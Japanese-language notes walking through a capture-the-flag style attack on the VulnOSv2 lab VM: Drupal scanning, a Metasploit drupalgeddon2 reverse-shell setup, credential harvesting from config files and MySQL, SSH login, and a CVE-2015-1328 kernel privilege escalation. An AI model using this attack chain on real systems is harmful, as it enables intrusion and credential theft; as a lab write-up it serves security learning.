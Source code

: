 ## 事前に設定すること
- ホストのブラウザからParrotOS側にコピペする方法には設定が必要。例えばインターネット上にあるコードをWindowsuのブラウザでコピーして、ParrotOSがわでペーストする場合。
- VirtualBoxで設定、一般、高度(A)にしてクリップボードの共有、ドラッグ&ドロップの両方を双方向にする、これでコピペできるようになる

## VulnOSv2 719~
### ポートスキャンまで同じ
- 22, 80, 6667

### サイトを探索
- メインのページのhtmlソースを見ると、単純なソースであることがわかる。
- いろいろ見て回ると某アニメがモチーフになっているのもわかる
- htmlソースを見ると`/jabcディレクトリ`のみ、drupalソフトが使われていることがわかる
- Documentationというサイトがあるが、何も書かれていない。マウスで白抜きにすると文字が現れるのコピーして翻訳する。`/jabcd0cs`にopenDocManというログインサービスがあるのがわかる

### droopScanを使う
- drupal7を使っているのでdroopscanを使うが、パスが通っていないので絶対パスでコマンドを呼び出す
- `/home/user/.local/bin/droopescan scan drupal -u http://192.168.56.112/jabc`
  - 再帰的にリンクを辿っていくので深くまでわかる
  - 細かいバージョンがわかる

### exploitを使う(攻略2でもできる)
- drupalのバージョンがわかったのでそのバージョンの攻撃exploitを指定して使う
- `msfconsole`
- プロンプトが変わる。metasploitツールのコマンドはタブを使って入力する
```
search drupal 7 type:exploit
use exploit/unix/webapp/drupal_drupalgeddon2
show targets
set RHOSTS ターゲット側のIPアドレス
set RPORT 80
set LHOST ParrotOS側のIPアドレス
set LPORT 4444
set TARGETURI /jabc/
show options
run
```
- 大文字のところは小文字でもOK
- show optionsで見ればわかるが、rport,lportはデフォルトで設定されている

### shellを使えるようにする
- `shell`
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- www-dataユーザになる

### システム内を探索する
- SUIDを見る
  - 特に使えそうなのがない 
- `cd .. ; ls`
- 設定ファイルを探す
  - `find . -name config* 2> /dev/null`
- `cd jabcd0cs`
- `cat config.php`
  - MySQLの設定ファイルでMySQLのユーザ名`root`とパスワード`toor`がわかる
 

### MySQLを見る
- `mysql -u root -p`
  - `-u`はユーザ `-p`はパスワードのオプション
  - プロンプトが変わる `mysql>` 
- `show databases;`
- `use jabcd0cs;`
- `show tables`
- `describe odm_user;`
- `select id,username,password from odm_user;`
- user名とパスワードがわかる。ただし、得られるパスワードはハッシュ化されているが、これを復号するのは難しいので複合したパスワードは`webmin1980`になる
- `exit;`

### ssh接続する(攻略3でもできる)
- `su`コマンドを使わずに、シェルを始めからsshする珍しいパターン。今までの接続を維持したいので新しいターミナルを開いて行う
- 環境変数を設定する
- `ssh webmin@$IP`
  - `su webmin`でも交代はできるが、後々に謎のエラーになるのでやめておく
- webminユーザになる
- 対話的なシェルにする
  - `/bin/bash -i`

### システム内を探索する
- `uname -r`
  - Linuxカーネルが`3.13.0`であることがわかる 
- `cat /etc/lsb-release`
  - Ubuntuのバージョンがわかる`14.04` 
- ここからubuntuのバージョンから脆弱性があることがわかる。この攻略のコードを書き込む

### ファイルに書き込むため移動する
- webminに書き込もうとするとエラーで書けない
  - `ls -l`でチェックする `drwxr-x---`となっている 
- cd /tmp

### ローカル権限昇格を狙う
- Ubuntuの脆弱性(CVE2015-1328)を利用して権限を乗っ取る。ホストOSのブラウザで`Ubuntu 14.04.4 lts exploit`を検索すると,ExploitDatabaseのページがヒットして、似たのが多く出てくるので、CVEを確認、そこのソースコードをコピーする
- `webmin@VulnOSv2:~$ cat > priv.c`
- `gcc -o priv priv.c`
- `chmod +x priv`
- `./priv`
- ルートになれる
### フラグの取得
- `cd /root`
- `cat flag.txt`

